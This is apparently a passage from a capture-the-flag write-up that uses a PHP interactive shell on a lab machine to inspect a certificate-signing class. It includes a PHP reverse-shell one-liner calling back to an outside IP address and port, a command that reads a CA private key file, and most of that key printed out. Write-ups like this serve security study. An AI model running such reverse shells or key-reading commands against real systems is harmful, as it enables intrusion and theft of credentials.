```
```

Some interesting data about the certificate could be find by printing the only local class variable present:

```
dir
Variables: $tokyo
show tokyo
  > 2| class Tokyo {
    3|  private function sign($caCert,$userCsr) {
    4|          $caKey = file_get_contents('/home/nairobi/ca.key');
    5|          $userCert = openssl_csr_sign($userCsr, $caCert, $caKey, 365, ['digest_alg'=>'sha256']);
    6|          openssl_x509_export($userCert, $userCertOut);
    7|          return $userCertOut;
    8|  }
    9| }

```

After some tries to type some commands we find out that there is an PHP error being thrown over `phar://eval()`, which shows that we can try something like:
```php
exec("whoami");
```

Not working, it's time to go to http://revshells.com:
```
$sock=fsockopen("10.10.16.4",31415);`sh <&3 >&3 2>&3`;
```
And BUM! Reverse shell obtained!
.... But not responding :(
```php
PHP Warning:  shell_exec() has been disabled for security reasons in phar://eval()'d code on line 2
```
After some reserch, serialization and phar-deserialization looks like a nice attack vector to exploit, so let's go for it:
https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization

```

file_get_contents("/home/nairobi/ca.key")
=> """
   -----BEGIN PRIVATE KEY-----\n
   MIIEvgIBADANBgkqhkiG9w0BAQEFAASCBKgwggSkAgEAAoIBAQDPczpU3s4Pmwdb\n
   7MJsi//m8mm5rEkXcDmratVAk2pTWwWxudo/FFsWAC1zyFV4w2KLacIU7w8Yaz0/\n
   2m+jLx7wNH2SwFBjJeo5lnz+ux3HB+NhWC/5rdRsk07h71J3dvwYv7hcjPNKLcRl\n
   uXt2Ww6GXj4oHhwziE2ETkHgrxQp7jB8pL96SDIJFNEQ1Wqp3eLNnPPbfbLLMW8M\n
   YQ4UlXOaGUdXKmqx9L2spRURI8dzNoRCV3eS6lWu3+YGrC4p732yW5DM5Go7XEyp\n
   s2BvnlkPrq9AFKQ3Y/AF6JE8FE1d+daVrcaRpu6Sm73FH2j6Xu63Xc9d1D989+Us\n
   PCe7nAxnAgMBAAECggEAagfyQ5jR58YMX97GjSaNeKRkh4NYpIM25renIed3C/3V\n
   Dj75Hw6vc7JJiQlXLm9nOeynR33c0FVXrABg2R5niMy7djuXmuWxLxgM8UIAeU89\n
   1+50LwC7N3efdPmWw/rr5VZwy9U7MKnt3TSNtzPZW7JlwKmLLoe3Xy2EnGvAOaFZ\n
   /CAhn5+pxKVw5c2e1Syj9K23/BW6l3rQHBixq9Ir4/QCoDGEbZL17InuVyUQcrb+\n
   q0rLBKoXObe5esfBjQGHOdHnKPlLYyZCREQ8hclLMWlzgDLvA/8pxHMxkOW8k3Mr\n
   uaug9prjnu6nJ3v1ul42NqLgARMMmHejUPry/d4oYQKBgQDzB/gDfr1R5a2phBVd\n
   I0wlpDHVpi+K1JMZkayRVHh+sCg2NAIQgapvdrdxfNOmhP9+k3ue3BhfUweIL9Og\n
   7MrBhZIRJJMT4yx/2lIeiA1+oEwNdYlJKtlGOFE+T1npgCCGD4hpB+nXTu9Xw2bE\n
   G3uK1h6Vm12IyrRMgl/OAAZwEQKBgQDahTByV3DpOwBWC3Vfk6wqZKxLrMBxtDmn\n
   sqBjrd8pbpXRqj6zqIydjwSJaTLeY6Fq9XysI8U9C6U6sAkd+0PG6uhxdW4++mDH\n
   CTbdwePMFbQb7aKiDFGTZ+xuL0qvHuFx3o0pH8jT91C75E30FRjGquxv+75hMi6Y\n
   sm7+mvMs9wKBgQCLJ3Pt5GLYgs818cgdxTkzkFlsgLRWJLN5f3y01g4MVCciKhNI\n
   ikYhfnM5CwVRInP8cMvmwRU/d5Ynd2MQkKTju+xP3oZMa9Yt+r7sdnBrobMKPdN2\n
   zo8L8vEp4VuVJGT6/efYY8yUGMFYmiy8exP5AfMPLJ+Y1J/58uiSVldZUQKBgBM/\n
   ukXIOBUDcoMh3UP/ESJm3dqIrCcX9iA0lvZQ4aCXsjDW61EOHtzeNUsZbjay1gxC\n
   9amAOSaoePSTfyoZ8R17oeAktQJtMcs2n5OnObbHjqcLJtFZfnIarHQETHLiqH9M\n
```